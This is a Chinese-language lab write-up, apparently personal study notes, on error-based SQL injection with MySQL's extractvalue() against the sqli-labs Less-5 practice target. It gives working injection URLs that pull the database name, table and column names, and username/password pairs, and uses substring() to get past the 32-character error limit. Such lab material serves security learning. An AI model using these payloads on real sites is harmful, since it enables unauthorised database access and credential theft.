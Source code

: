 **1.使用extractvalue()函数可以查询xml表的内容**

```sql
SELECT extractvalue(doc,'/book/author/surname') FROM xml;
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729125718390.png" alt="image-20220729125718390" style="zoom: 50%;" />

**2.故意设置错误信息，使结果报错。**

`如果设置路径错误，并不会报错；设置路径分割符/出错，就会出现报错。`

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729130523157.png" alt="image-20220729130523157" style="zoom:50%;" /><img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729130759790.png" alt="image-20220729130759790" style="zoom:50%;" />

**3.在报错语句前面写一个查询语句，并在报错的时候将查询信息回显出来。**

构造如下语句，以在报错信息中回显数据库：

```sql
SELECT extractvalue(doc,concat(0x7e,(SELECT DATABASE()))) FROM xml;
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729131826733.png" alt="image-20220729131826733" style="zoom:50%;" />

**4.在靶场less-5中进行测试，显示了数据库的名称，也确定了回显位。**

```sql
http://192.168.37.148/sql/Less-5/?id=-1' union select 1,2,extractvalue(1,concat(0x7e,(select database())) )-- 
#concat是一个拼接函数，可以将0x7e和后边的查询拼接起来，使它出现报错。
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729133351083.png" alt="image-20220729133351083" style="zoom:50%;" />

**5.获取security数据库下的所有表的表名**

```sql
http://192.168.37.148/sql/Less-5/?id=-1' and 1=extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'))) -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729135715382.png" alt="image-20220729135715382" style="zoom:50%;" />

**6.选取一个表users，获取该表下的列名。**

```sql
http://192.168.37.148/sql/Less-5/?id=-1' and 1=extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) -- 
```

但是，有一个问题，就是默认只能返回32个字符。如下图所示。

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729141844904.png" alt="image-20220729141844904" style="zoom:50%;" />

可以使用函数`substrng()`或者`substr()`来解决只能返回32个字符的问题，两个函数用法都一样。虽然每次还是只能显示32个字符，但是可以通过多次显示，每次显示不一样的，以获取全部结果。

```sql
http://192.168.37.148/sql/Less-5/?id=-1' and 1=extractvalue(1,concat(0x7e,(select substring(group_concat(username,0x7e,password),25,32) from users))) --
#从第25个字符后面再显示32个字符
```
